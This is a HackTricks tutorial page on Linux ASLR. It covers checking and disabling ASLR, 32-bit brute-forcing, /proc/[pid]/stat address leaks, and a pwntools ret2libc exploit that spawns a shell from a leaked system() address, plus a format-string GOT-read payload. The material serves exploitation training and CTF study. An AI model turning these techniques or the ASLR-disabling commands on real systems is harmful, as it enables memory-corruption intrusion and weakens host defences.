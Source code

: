 # ASLR

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

**Address Space Layout Randomization (ASLR)** is a security technique used in operating systems to **randomize the memory addresses** used by system and application processes. By doing so, it makes it significantly harder for an attacker to predict the location of specific processes and data, such as the stack, heap, and libraries, thereby mitigating certain types of exploits, particularly buffer overflows.

### **Checking ASLR Status**

To **check** the ASLR status on a Linux system, you can read the value from the `/proc/sys/kernel/randomize_va_space` file. The value stored in this file determines the type of ASLR being applied:

* **0**: No randomization. Everything is static.
* **1**: Conservative randomization. Shared libraries, stack, mmap(), VDSO page are randomized.
* **2**: Full randomization. In addition to elements randomized by conservative randomization, memory managed through `brk()` is randomized.

You can check the ASLR status with the following command:

```bash
cat /proc/sys/kernel/randomize_va_space
```

### **Disabling ASLR**

To **disable** ASLR, you set the value of `/proc/sys/kernel/randomize_va_space` to **0**. Disabling ASLR is generally not recommended outside of testing or debugging scenarios. Here's how you can disable it:

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

You can also disable ASLR for an execution with:

```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```

### **Enabling ASLR**

To **enable** ASLR, you can write a value of **2** to the `/proc/sys/kernel/randomize_va_space` file. This typically requires root privileges. Enabling full randomization can be done with the following command:

```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```

### **Persistence Across Reboots**

Changes made with the `echo` commands are temporary and will be reset upon reboot. To make the change persistent, you need to edit the `/etc/sysctl.conf` file and add or modify the following line:

```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```

After editing `/etc/sysctl.conf`, apply the changes with:

```bash
sudo sysctl -p
```

This will ensure that your ASLR settings remain across reboots.

## **Bypasses**

### 32bit brute-forcing

PaX divides the process address space into **3 groups**:

* **Code and data** (initialized and uninitialized): `.text`, `.data`, and `.bss` —> **16 bits** of entropy in the `delta_exec` variable. This variable is randomly initialized with each process and added to the initial addresses.
* **Memory** allocated by `mmap()` and **shared libraries** —> **16 bits**, named `delta_mmap`.
* **The stack** —> **24 bits**, referred to as `delta_stack`. However, it effectively uses **11 bits** (from the 10th to the 20th byte inclusive), aligned to **16 bytes** —> This results in **524,288 possible real stack addresses**.

The previous data is for 32-bit systems and the reduced final entropy makes possible to bypass ASLR by retrying the execution once and again until the exploit completes successfully.

#### Brute-force ideas:

* If you have a big enough overflow to host a **big NOP sled before the shellcode**, you could just brute-force addresses in the stack until the flow **jumps over some part of the NOP sled**.
  * Another option for this in case the overflow is not that big and the exploit can be run locally is possible to **add the NOP sled and shellcode in an environment variable**.
* If the exploit is local, you can try to brute-force the base address of libc (useful for 32bit systems):

```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```

* If attacking a remote server, you could try to **brute-force the address of the `libc` function `usleep`**, passing as argument 10 (for example). If at some point the **server takes 10s extra to respond**, you found the address of this function.

{% hint style="success" %}
In 64bit systems the entropy is much higher and this isn't possible.
{% endhint %}

### Local Information (`/proc/[pid]/stat`)

The file **`/proc/[pid]/stat`** of a process is always readable by everyone and it **contains interesting** information such as:

* **startcode** & **endcode**: Addresses above and below with the **TEXT** of the binary
* **startstack**: The address of the start of the **stack**
* **start\_data** & **end\_data**: Addresses above and below where the **BSS** is
* **kstkesp** & **kstkeip**: Current **ESP** and **EIP** addresses
* **arg\_start** & **arg\_end**: Addresses above and below where **cli arguments** are.
* **env\_start** &**env\_end**: Addresses above and below where **env variables** are.

Therefore, if the attacker is in the same computer as the binary being exploited and this binary doesn't expect the overflow from raw arguments, but from a different **input that can be crafted after reading this file**. It's possible for an attacker to **get some addresses from this file and construct offsets from them for the exploit**.

{% hint style="success" %}
For more info about this file check [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) searching for `/proc/pid/stat`
{% endhint %}

### Having a leak

* **The challenge is giving a leak**

If you are given a leak (easy CTF challenges), you can calculate offsets from it (supposing for example that you know the exact libc version that is used in the system you are exploiting). This example exploit is extract from the [**example from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (check that page for more details):

```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
    'A' * 32,
    libc.sym['system'],
    0x0,        # return address
    next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```

* **ret2plt**

Abusing a buffer overflow it would be possible to exploit a **ret2plt** to exfiltrate an address of a function from the libc. Check:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **Format Strings Arbitrary Read**

Just like in ret2plt, if you have an arbitrary read via a format strings vulnerability it's possible to exfiltrate te address of a **libc function** from the GOT. The following [**example is from here**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):

```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```

You can find more info about Format Strings arbitrary read in:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

Try to bypass ASLR abusing addresses inside the stack:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
